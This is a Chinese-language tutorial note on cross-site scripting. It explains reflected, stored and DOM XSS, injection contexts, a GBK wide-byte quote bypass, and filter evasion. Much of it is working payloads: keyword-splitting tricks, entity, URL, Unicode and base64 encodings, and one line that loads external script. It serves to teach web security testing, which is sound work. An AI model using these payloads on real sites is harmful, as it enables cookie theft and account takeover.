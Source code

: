 ## XSS

- 基础
- 定义和危害
- XSS分类
  - 反射XSS
  - 存储式XSS
  - DOM XSS
- XSS的触发
- XSS过滤和绕过
- cheetsheets

### XSS基础补充

HTML是由众多标签组成的，标签内还有对应的各种属性。这些标签可以不区分大小写，有的可以不需要闭合。属性的值可以用单引号，双引号，反单引号包围住，甚至不需要引号。多余的空格与tab毫不影响HTML的解析。

DOM全程Document Object Model，文档对象模型，就是浏览器将HTML/XML这样的文档抽象成一个树形结构。这样方便JS进行读写操作。

HttpOnly机制:设置此标志后，客户端脚本无法读写cookie。

Secure Cookie机制:设置此标记的cookie仅在HTTPS层面安全传输。

#### 定义：

恶意代码（HTML/客户端脚本）被注入到web应用中，恶意代码被植入到其他用户使用的页面中。

#### 危害：

1.盗取用户账号

2.控制企业数据-读取篡改添加删除

3.非法转账

4.强制发送电子邮件

5.控制受害者重定向

6.cookie的session id盗取，冒充登录

7.钓鱼

…

具体危害和利用的例子可以看这篇文章

[https://www.sqlsec.com/2020/10/xss2.html#%E6%80%BB%E7%BB%93](https://www.sqlsec.com/2020/10/xss2.html#总结)

## XSS类型

### 1.反射式XSS

反射型 XSS 只是简单地把用户输入的数据 “反射” 给浏览器。也就是说，黑客往往需要诱使用户 “点击” 一个恶意链接，才能攻击成功。

特点：浏览时触发，只执行一次，非持久化。

测试：测试每一个可能的入口

- URL文件路径


- URL查询字符串中的参数


- HTTP头文件


### 2.存储式XSS

XSS payload被存储在网络应用的服务器中，然后在其它用户访问时运行

例子：

一个允许用户发表评论的博客网站。不幸的是，这些评论并没有检查它们是否含有JavaScript，也没有过滤掉任何恶意代码。如果我们现在发布一个含有JavaScript的评论，这将被存储在数据库中，现在访问该文章的每一个其他用户都会在他们的浏览器中运行这个JavaScript。（可能用于盗取cookie）

对于存储型的输出，一般位于

- 表单提交后跳转的页面
- 表单所在的页面
- 表单提交后不见了，则需要在整个网站寻找输出点。(可以使用爬虫)

### 3.DOM based XSS

它和反射型 XSS、存储型 XSS 的差别在于，DOM XSS 的 XSS 代码并不需要服务器解析响应的直接参与，触发 XSS 靠的就是浏览器端的 DOM 解析，可以认为完全是客户端的事情。

测试:寻找js代码中有攻击者可以控制的某些变量的部分，之后看他们如何被处理，是否被写入DOM，被传递给不安全的js方法，比如eval()



### XSS的触发

#### 1.HTML标签之间 

``` js
<div></div>   #直接触发即可
```

``` js
<title></title>
<textarea></textarea>
<xmp></xmp>
<iframe></iframe>
<noscript></noscript>
<noframes></noframes>
<plaintext></plaintext>
#需要先闭合标签
```

``` js
<script></script>
<style><style>
#闭合标签或者利用标签可执行脚本的特性构造特殊的payload
```

#### 2.HTML之内

``` js
<input type="text" value="[输出]" />
```

最常见的位置如上所示，可以采取两种方式闭合

1.闭合属性，然后使用on时间触发

``` js
"onmouseover=alert(1) x="
```

2.闭合属性和标签，直接执行

``` js
"><script>alert(1)</scrip>
```

当遇到如下场景，只能闭合input标签，否则由于hidden无法触发on事件

``` js
<input type="hidden" value="[输出]" />
#只能闭合input标签
```

但是如果调换属性的顺序，则可以闭合属性，使用on事件

``` js
<input value="[输出]" type="hidden"/>
#PAYLOAD:
1" onmouseover=alert(1) type="text
#将输出变成一个标准的输入框，鼠标移上去就可以触发XSS
```

#### 3.on事件内

不同的场景有不同的闭合策略

#### 4.输出在style属性内

ie浏览器的特性：可以在style中执行脚本

``` js
<a href="#" style=“width:[输出]">click me</a>
PAYLOAD:
1;xss:expression(if(!windows.x){alert(1);window.x=1;})
#在style属性内注入expression关键词，并且适当的闭合，就可以触发XSS
```

## 测试payload

```js
"><svg/onload=alert(1)//
<a href="javascript:alert(1)" >click me</a>       
//a标签伪协议执行
<a href="data:text/html;base64,这里跟着base64之后的js代码">click here</a>        
//data引用外域资源
<svg/onload=s=createElement('script');body.appendChild(s);s.src='js地址'//
//引用外部js

```



## XSS过滤和绕过

### DOM XSS

#### 1.DOM渲染

##### HTML和javascript自解码机制

``` js
<input type="button" id="exec_btn" value="exec" onclick="document.write([输出])" />
```

如果使用html encode的payload:

``` js
HtmlEncode('<img src=@ onerror=alert(123) />')
```

点击之后不会执行alert(123)，因为被html编码了

但是如果使用如下payload

``` js
'&lt;img src=@ onerror=alert(123) /&gt;'
```

就会执行，因为此处的javascript代码(document.write)在HTML标签中

这里的JavaScript代码可以被HTML形式编码

##### HTML编码

- ##### 进制编码：&#xH;、&#D;

- ##### HTML实体编码

在JavaScript执行 之前，HTML编码会先被decode，因此第二个payload可以执行，但是第一个不可以(执行javascript之后被函数编码)

但是如果不是在HTML标签中，而是在<script>标签中那么就不会被HTML形式解码，因此，在下面的<script>标签中：

```js
<input type="button" id="exec_btn" value="exec" />
<script>
  function $(id){return document.getElementById(id);};
  $('exec_btn').onclick = function(){
    document.write('<img src=@ onerror=alert(123) />');
    //document.write('&lt;img src=@ onerror=alert(123) /&gt;');
  }
</script>
```

如果使用注释中的经过html实体编码后的payload，则无法被解码执行。

而在JavaScript上下文环境中，在执行前JavaScript编码会被自动解码

##### JavaScript编码

- Unicodei形式: \uH(Hex)
- 普通十六进制:\xH
- 特殊字符转义: 在" '等特殊字符前加\转义

#### 2.DOM修正式渲染

在DOM XSS中需要研究的不是查看源码的静态结果

而应该是F12或者执行javascript语句：

``` js
document.documentElement.innerHTML
```

来查看动态的结果

通过查看动态结果，可以看到浏览器/过滤器对DOM渲染的修正，不同浏览器的修正可能存在一些差异，查看这些修正式的渲染可以用于绕过从而XSS

#### 3.字符和字符集

##### 字符

肉眼可见的文字/符号单元就是一个字符，可能对应1~n个字节，一个字节对应8bit

##### 字符集

一个字符和对应的1~n个字节是由字符集（编码方式）决定的。

而宽字节（2字节）会带来安全问题：吃ASCII

###### 宽字节编码

- GBK,GB2312,GB18030,BIG5,SHIFT_JIS
- GBK:第一字节（高字节0x81~0xFE）第二字节（低字节 0x40~0x7E 与 0x80~0xFE）

##### 宽字节编码带来的安全问题

下面的代码（php magic_quotes_gpc= On）

```js 
<?php header("Content-Type:text/html;charset=GBK"); ?>
<head>
<title> gb xss </title>
</head>
<script>
a = "<?php echo $_GET['x'];?>";
</script>
```

需要闭合双引号

PAYLOAD:

``` js
fail:
gb.php?x=1";alert(1)//
#双引号会被转义,闭合失败
success:
gb.php?x=1%81";alert(1)//
#双引号被转义，变成下面的代码
gb.php?x=1%81\";alert(1)//
#a="1[0x81]\";alery(1)//;
```

[0x81]\组成了一个合法字符，从而闭合双引号，触发XSS

#### 4.弹窗关键字检测和绕过

WAF过滤的常见函数

- 弹窗函数：alert()、prompt()、confirm()
- 代码执行函数eval()

绕过方式：分割

- 添加空格、回车、换行：alert%20(/xss/)、%0A、%0D、%09

  ```js
  //也可以使用html编码后的回车/换行/Tab添加
  1.<iframe src=javas&#x09;cript:alert(1)></iframe> //Tab
  2.<iframe src=javas&#x0A;cript:alert(1)></iframe> //回车
  3.<iframe src=javas&#x0D;cript:alert(1)></iframe> //换行
  4.<iframe src=javascript&#x003a;alert(1)></iframe> //编码冒号
  5.<iframe src=javasc&NewLine;ript&colon;alert(1)></iframe> //HTML5 新增的实体命名编码，IE6、7下不支持
  
  ```

  

- 多行注释

  ```js
  alert/*abcd*/(/xss/)
  ```

- 注释换行

  ```js
  alert//abcd%0A(/xss/)
  ```

- ''代替括号alert'xss'

- 括号分割((alert))(/xss/)

  ```js
  //使用window，top，prompt
  <img src=x onerror="window['al'+'ert'](0)"></img>
  <img src=x onerror="window.alert(0)"></img>
  <img src=x onerror="top['al'+'ert'](0)"></img>
  <img src=x onerror="top.alert(0)"></img>
  <img src=x onerror=prompt(document.cookie)>
  //使用下面的payload
  <input/onfocus=_=alert,_(123)>
  <input/onfocus=_=alert,xx=1,_(123)>
  <input/onfocus=_=alert;_(123)>
  <input/onfocus=_=alert;xx=1;_(123)>
  <input/onfocus=_=window['alert'],_(123)>
  <input/onfocus=_=window.alert,_(123)>
  <input/%00/autofocus=""/%00/onfocus=.1|alert`XSS`> 
  //异常处理
  <svg/onload="window.onerror=eval;throw'=alert\x281\x29';">
  //eavl(string)参数关键词是字符串可以拼接
  <svg/onload=eval('ale'+'rt(1)')>
  ```

  ### 5.编码绕过

  ##### 1.html实体编码

  ``` html
  <iframe src=javascript:alert(1)>
  //十进制
  <iframe src=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;>
  //十六进制
  <iframe src=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;>
  //不带分号
  <iframe src=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x31&#x29>
  //可以填充0
  <iframe src=&#x0006A&#x00061&#x00076&#x00061&#x00073&#x00063&#x00072&#x00069&#x00070&#x00074&#x0003A&#x00061&#x0006C&#x00065&#x00072&#x00074&#x00028&#x00031&#x00029>
  ```

  ##### 2.URL编码

  ```html
  <a href="{here}">xx</a>
  <iframe src="{here}">
  //当输出环境在src，href中，可以js伪协议执行JS
  //如下
  <iframe src=”javascript:alert(1)”>test</iframe>
  //可以URL编码（协议头javascript不能编码）
  //编码后如下
  <a href="javascript:%61%6c%65%72%74%28%31%29">xx</a>
  <iframe src="javascript:%61%6c%65%72%74%28%31%29"></iframe>
  //可以二次URL编码
  <iframe src="javascript:%2561%256c%2565%2572%2574%2528%2531%2529"></iframe>
  //也可结合上面的16进制编码javacript协议头
  <iframe src="&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;%61%6c%65%72%74%28%31%29"></iframe>
  ```

  ##### 3.Unicode编码

  ```html
  //Unicode，8进制，16进制
  1.<svg/onload=setTimeout('\x61\x6C\x65\x72\x74\x28\x31\x29')>
  2.<svg/onload=setTimeout('\141\154\145\162\164\050\061\051')>
  3.<svg/onload=setTimeout('\u0061\u006C\u0065\u0072\u0074\u0028\u0031\u0029')>
  4.<script>eval("\x61\x6C\x65\x72\x74\x28\x31\x29")</script>
  5.<script>eval("\141\154\145\162\164\050\061\051")</script>
  6.<script>eval("\u0061\u006C\u0065\u0072\u0074\u0028\u0031\u0029")</script>
  //eval()可以使用window['eavl']
  1.<script>window['eval']("\x61\x6C\x65\x72\x74\x28\x31\x29")</script>
  2.<script>window['eval']("\141\154\145\162\164\050\061\051")</script>
  3.<script>window['eval']("\u0061\u006C\u0065\u0072\u0074\u0028\u0031\u0029")</script>
  ```

  ##### 4.Base64编码

  ```html
  <a href="data:text/html;base64, PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KDEpPg==">test</a>
  <iframe src="data:text/html;base64, PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KDEpPg=="></iframe>
  ```

  ##### 5.atob函数

  ```js
  1.<a%20href=javascript:eval(atob('YWxlcnQoMSk='))>Click</a>
  2.<a%20href=javascript:eval(window.atob('YWxlcnQoMSk='))>Click</a>
  3.<a%20href=javascript:eval(window['atob']('YWxlcnQoMSk='))>Click</a>
  ```

  YWxlcnQoMSk=是alert(1)的base64编码

  ##### 6.String.fromCharCode

  ```js
   <a href='javascript:eval(String.fromCharCode(97, 108, 101, 114, 116, 40, 49, 41))'>Click</a>
  ```

  ##### 7.结合Unicode->URL->HTML三种编码

  ```js
  <a href=javascript:\u0061\u006C\u0065\u0072\u0074(1)>Click</a>
  <a href=javascript:%5c%75%30%30%36%31%5c%75%30%30%36%43%5c%75%30%30%36%35%5c%75%30%30%37%32%5c%75%30%30%37%34(1)>Click</a>
  <a href=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#37;&#53;&#99;&#37;&#55;&#53;&#37;&#51;&#48;&#37;&#51;&#48;&#37;&#51;&#54;&#37;&#51;&#49;&#37;&#53;&#99;&#37;&#55;&#53;&#37;&#51;&#48;&#37;&#51;&#48;&#37;&#51;&#54;&#37;&#52;&#51;&#37;&#53;&#99;&#37;&#55;&#53;&#37;&#51;&#48;&#37;&#51;&#48;&#37;&#51;&#54;&#37;&#51;&#53;&#37;&#53;&#99;&#37;&#55;&#53;&#37;&#51;&#48;&#37;&#51;&#48;&#37;&#51;&#55;&#37;&#51;&#50;&#37;&#53;&#99;&#37;&#55;&#53;&#37;&#51;&#48;&#37;&#51;&#48;&#37;&#51;&#55;&#37;&#51;&#52;&#40;&#49;&#41;>Click</a>
  ```

  同样可以弹窗

  ##### HTTPonly绕过 

## XSS cheetsheets

#### XSS Filter Evasion Cheat Sheet

https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html

##### Cross-site scripting (XSS) cheat sheet POSTSWIGGER

https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

#### xxsfilterbypass-github

https://gist.github.com/rvrsh3ll/09a8b933291f9f98e8ec
